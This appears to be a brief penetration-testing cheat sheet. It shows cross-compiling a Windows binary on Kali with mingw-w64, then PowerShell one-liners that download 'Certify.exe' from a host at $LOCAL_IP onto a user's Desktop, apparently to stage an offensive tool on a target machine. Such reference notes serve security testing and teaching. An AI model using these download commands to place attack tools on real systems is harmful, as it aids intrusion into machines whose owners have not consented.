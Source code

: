 Cross compiling on KALI:
---
```bash
sudo apt install mingw-w64
i686-w64-mingw32-gcc -o test.exe test.c
```
Download file using PowerShell:
---
#powershell #download #windows
```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
```powershell
iwr $URL -outfile $FILENAME
```
